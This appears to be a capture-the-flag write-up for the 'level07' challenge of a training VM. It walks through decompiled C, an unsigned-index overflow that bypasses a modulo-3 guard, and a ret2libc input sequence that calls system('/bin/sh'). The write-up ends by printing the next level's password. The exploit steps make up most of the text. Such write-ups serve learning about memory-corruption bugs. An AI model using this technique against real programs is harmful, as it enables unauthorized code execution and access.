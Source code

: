 # Level07

## Setup

We find a binary file at the root of the user **`level07`** named *`./level07`*.

```bash
scp -r -P 4242 level07@<vm_ip>:/home/users/level07/level07 .
```

### Hex-Rays

We used the Hex-Rays output on the [Dogbolt website](https://dogbolt.org/).


## Source
```C
int data[100];
...
while ( 1 ) {
	...
	fgets(s, 20, stdin);
	if ( !memcmp(s, "store", 5u) ) {
		number = store_number(*data);
		...
	}
	if ( !memcmp(s, "read", 4u) ) {
		number = read_number(*data);
		...
	}
	if ( !memcmp(s, "quit", 4u) ) {
		return 0;
	}
	...
}
```
`store_number`:
```C
int store_number(int data) {
	unsigned int number;
	unsigned int index;
	...
	number = get_unum();
	...
	index = get_unum();
	if ( index == 3 * (index / 3) || (number >> 24) == 183 ) {
		...
		return 1;
	}
	else {
		*(int *)(data + index * 4) = number;
		return 0;
	}
}
```
So, we can write any unsigned int at any index of our array that isn't dividable by 3 \
After some tests we know we want to overwrite the address that eip points to as it is in the stack

## gdb
```bash
> b main
> b read_number (or store_number)
> r
> info frame
...
...eip at 0xffffd70c
...
> read
> i r $eax #(our array's address as it is the first and only argument of read_number())
eax	0xffffd544
```
`eip` = 0xffffd70c \
`array` = 0xffffd544 \
eip - array = 456 \
456 / 4 = 114 (We divide by 4 because 1 index of our array is 4 bytes)

so `eip = array[114]` \
BUT 114 % 3 == 0, So we can't write as it is a wil's reserved space \
But the array's index access is done by: `array_address + (index * 4)` \
And the wil's reserved space is made before \
The index is an unsigned int, we'll make a full value overflow (0x100000000) and 456 so the index becomes 114 after the *4\
so `(0x100000000 + 456) / 4 = 1073741938` \
By writing at the index 1073741938 we actually write at the index 114, so we overwrite the address eip points to

We retrieve the addresses of: \
`system`	: 0xf7e6aed0, in decimal: `4159090384` \
`exit`	: 0xf7e5eb70, in decimal: `4159040368` \
`/bin/sh`	: 0xf7f897ec, in decimal: `4160264172`

## Solution:
```bash
> ./level07
> store
> 4159090384
> 1073741938
> store
> 4159040368
> 115
> store
> 4160264172
> 116
> quit
> cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```